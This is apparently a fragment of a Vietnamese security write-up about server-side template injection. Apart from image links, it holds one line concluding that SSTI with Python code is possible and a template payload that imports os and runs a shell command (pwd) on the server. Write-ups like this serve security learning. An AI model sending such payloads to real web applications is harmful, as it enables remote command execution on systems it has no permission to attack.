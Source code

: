 ![image.png](Images/image%209.png)

![image.png](Images/image%2010.png)

Như vậy ta có thể thực hiện SSTI bằng code python

Payload: `{% import os ; os.system("pwd")%}`
